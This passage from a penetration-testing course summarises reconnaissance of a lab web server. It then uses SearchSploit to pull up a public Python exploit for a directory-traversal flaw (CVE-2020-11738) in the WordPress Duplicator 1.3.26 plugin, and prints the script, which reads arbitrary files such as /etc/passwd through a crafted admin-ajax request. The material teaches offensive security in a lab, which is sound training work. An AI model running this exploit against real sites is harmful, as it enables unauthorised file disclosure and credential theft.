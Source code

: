 > Listing 7 - SearchSploit results for the Duplicator WordPress plugin

The output shows that there are two exploits matching the version of the Duplicator plugin on WEBSRV1. One is tagged with *Metasploit*, indicating that this exploit was developed for The Metasploit Framework. We'll review them in the next Learning Unit.

Let's summarize what information we obtained about WEBSRV1 in this section. We learned that the target machine is an Ubuntu 22.04 system with two open ports: 22 and 80. A WordPress instance runs on port 80 with various active plugins. A plugin named Duplicator is outdated and a SearchSploit query provided us with two vulnerability entries matching the version.

## 27.2. Attacking a Public Machine

This Learning Unit covers the following Learning Objectives:

- Use vulnerabilities in WordPress Plugins
- Crack the passphrase of an SSH private key
- Elevate privileges using sudo commands
- Leverage developer artifacts to obtain sensitive information

In the previous Learning Unit, we gathered information on both MAILSRV1 and WEBSRV1 machines. Based on the enumeration results, we identified a potentially vulnerable WordPress plugin on WEBSRV1.

In this Learning Unit, we'll attempt to exploit this vulnerable plugin and get access to the system. If we are successful, we'll perform privilege escalation and search the target machine for sensitive information.

## 27.2.1. Initial Foothold

In the previous Learning Unit, we used SearchSploit to find exploits for Duplicator 1.3.26. SearchSploit provided two exploits for this version, one of which was an exploit for Metasploit. Let's use SearchSploit to examine the other displayed exploit by providing the ExploitDB ID from Listing 7 to **\-x**.

```
kali@kali:~/beyond$ searchsploit -x 50420
```

> Listing 8 - Searchsploit command to examine a specific exploit

Once entered, the information and exploit code for a directory traversal attack on Duplicator 1.3.26 are shown.

```
# Exploit Title: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
# Date: October 16, 2021
# Exploit Author: nam3lum
# Vendor Homepage: https://wordpress.org/plugins/duplicator/
# Software Link: https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip]
# Version: 1.3.26
# Tested on: Ubuntu 16.04
# CVE : CVE-2020-11738

import requests as re
import sys

if len(sys.argv) != 3:
        print("Exploit made by nam3lum.")
        print("Usage: CVE-2020-11738.py http://192.168.168.167 /etc/passwd")
        exit()

arg = sys.argv[1]
file = sys.argv[2]

URL = arg + "/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../.." + file

output = re.get(url = URL)
```